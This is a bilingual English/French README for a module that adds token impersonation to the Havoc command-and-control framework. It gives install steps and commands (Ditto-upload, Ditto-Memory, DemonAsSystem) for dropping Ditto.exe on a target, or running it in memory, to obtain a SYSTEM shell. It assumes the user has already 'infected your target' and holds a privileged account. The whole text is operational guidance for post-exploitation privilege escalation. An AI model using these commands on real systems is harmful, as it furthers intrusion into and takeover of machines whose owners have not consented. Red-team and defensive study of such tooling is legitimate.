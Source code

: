 # Havoc_impersonate
## EN
### Description

The Havoc_impersonate module directly integrates impersonation functionality into Havoc.

This script utilizes three binary files. Two of these files are copies of objects from the NoConsoolation module. The third file is Ditto.exe, which performs the impersonation. We thank @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) for his repository.

This module allows uploading Ditto.exe (or another file) to the target machine or executing the executable directly in memory.

### Installation

1. Install Python dependencies:
```bash
pip install argparse 
```

2. Clone the repository:
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

After cloning, open your Havoc client.

3. Click on the "Script" tab and open the script manager window.

4. Click "Load Script", choose the impersonnate.py file, and open it.

A line will appear in the script manager tab, indicating that the script has been loaded into Havoc.

### Usage Guide
#### Prerequisites

You must have infected your target and have a privileged account before using this module.

#### Upload
##### Step 1

This command is used to set the local file to be uploaded to your target. The upload requires your session ID.

```
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

To obtain a system shell:
```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

To execute a custom command for Ditto:
```
Ditto-upload Exec help
```

#### In Memory
##### Step 1

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

To obtain a system shell:
```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

To execute a custom command for Ditto:
```
Ditto-Memory Exec help
```


## FR
### Description

Le module Havoc_impersonnate intègre directement la fonctionnalité d'usurpation d'identité dans Havoc.

Le script utilise trois fichiers binaires. Deux de ces fichiers sont des copies d'objets provenant du module NoConsoolation. Le troisième fichier est Ditto.exe, qui effectue l'usurpation d'identité. Nous remercions @LeDocteurDesBits (https://github.com/LeDocteurDesBits/Ditto) pour son dépôt.

Ce module permet de télécharger Ditto.exe (ou un autre fichier) sur la machine cible ou d'exécuter directement l'exécutable en mémoire.

### Installation

1. Installez les dépendances Python :
```bash
pip install argparse 
```

2. Clonez le dépôt :
```bash
git clone https://github.com/MaldExE/Havoc_impersonnate.git
```

Après le clonage, ouvrez votre client Havoc.

3. Cliquez sur l'onglet "Script" et ouvrez la fenêtre du gestionnaire de scripts.

4. Cliquez sur "Load Script", choisissez le fichier impersonnate.py et ouvrez-le.

Une ligne apparaîtra dans l'onglet du gestionnaire de scripts, indiquant que le script a été chargé dans Havoc.

### Guide d'utilisation
#### Prérequis

Vous devez avoir infecté votre cible et disposer d'un compte privilégié avant d'utiliser ce module.

#### Upload
##### Étape 1

Cette commande est utilisée pour définir le fichier local à télécharger sur votre cible. L'upload nécessite l'ID de votre session.

```
Ditto-upload SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

Pour obtenir un shell système :
```
Ditto-upload DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Pour exécuter une commande personnalisée pour Ditto :
```
Ditto-upload Exec help
```

#### En mémoire
##### Étape 1

```
Ditto-Memory SetExecutableFile /home/arthur/Documents/malware/havoc_module/Havoc_impersonnate/Ditto.exe
```

Pour obtenir un shell système :
```
Ditto-Memory DemonAsSystem C:\Users\arthur\Desktop\tmp\Hello.exe
```

Pour exécuter une commande personnalisée pour Ditto :
```
Ditto-Memory Exec help
```
